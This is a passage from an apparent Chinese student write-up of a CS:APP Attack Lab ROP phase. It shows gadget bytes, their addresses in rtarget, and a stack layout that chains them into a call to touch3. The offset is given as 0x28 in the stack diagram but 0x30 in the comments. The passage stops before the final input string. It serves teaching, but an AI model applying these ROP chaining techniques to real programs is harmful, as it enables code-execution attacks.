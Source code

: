 其他指令都好找，就是`48 89 e7`找不到紧跟`c3`的。

所以只能间接将`%rsp`传递给`%rdi`

先按照前缀找:`48 89`

```nasm
0000000000401aab <setval_350>:
  401aab: c7 07 48 89 e0 90            	movl	$0x90e08948, (%rdi)     # imm = 0x90E08948
  401ab1: c3                           	retq
```

`48 89 e0`正好是`mov %rsp, %rax`是可以接受的，并且`90`是nop.

那么还差一个`mov %rax, %rdi`是重复的。

所以:

```text
address + 0x38: [cookie的ASCII]  # <- %rdi + 0x30
address + 0x30: [touch3的地址]
address + 0x28: [gadget 6的地址]
address + 0x20: [add_xy()的地址]
address + 0x18: [第二个参数:0x28]
address + 0x10: [gadget 4的地址]
address + 0x08: [gadget 2的地址]  # mov %rsp, %rax时，%rsp在这
address       : [gadget 0的地址]  # <- %rsp 即将ret跳转到gadget0
--------上面是栈的结构----------

gadget 0: mov %rsp, %rax        # 间接传递，先传给%rax
gadget 1: ret
gadget 2: mov %rax, %rdi        # 获取%rsp的值 初始化add的第一个参数
gadget 3: ret                   # 进入gadget4
gadget 4: popq %rsi             # 初始化%rsi第二个参数为0x30
gadget 5: ret                   # 然后ret进入add_xy:0x4019d6

# 进入add_xy之后ret
# %rax为加法结果: %rdi + 0x30

*gadget 6: mov %rax, %rdi        # 加法结果保存为第一个参数
*gadget 7: ret                   # 这是add_xy内部的ret
```

那么`gadgets`的字节码及其地址有:

```text
48 89 e0 # mov %rsp, %rax -> 0x401a06
c3       # ret
48 89 c7 # mov %rax, %rdi -> 0x4019a2
c3       # ret
5e       # popq %rsi      -> 0x401383
c3       # ret
48 89 c7 # mov %rax, %rdi -> 0x4019a2
c3       # ret
```

查找字节码在`rtarget.asm`的地址，得到缓冲区输入的内容有:
